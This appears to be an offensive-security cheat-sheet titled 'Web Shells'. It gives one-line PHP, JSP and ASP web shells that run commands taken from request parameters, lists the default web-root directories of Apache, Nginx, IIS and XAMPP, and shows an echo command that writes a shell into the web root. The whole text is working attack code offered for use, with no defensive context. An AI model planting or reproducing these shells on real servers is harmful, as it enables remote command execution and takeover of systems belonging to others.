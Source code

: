 # Web Shells

* php

```php
<?php system($_REQUEST["<PARAM>"]); ?>
```

* jsp

```php
<% Runtime.getRuntime().exec(request.getParameter("<PARAM>")); %>
```

* asp

```aspnet
<% eval request("<PARAM>") %>
```

### Web Roots

* Apache: `/var/www/html/`&#x20;
* Nginx: `/usr/local/nginx/html/`
* IIS: `C:\inetpub\wwwroot\`
* XAMPP: `C:\xampp\htdocs`

```bash
echo '<WEBSHELL>' > <WEBROOT>
```
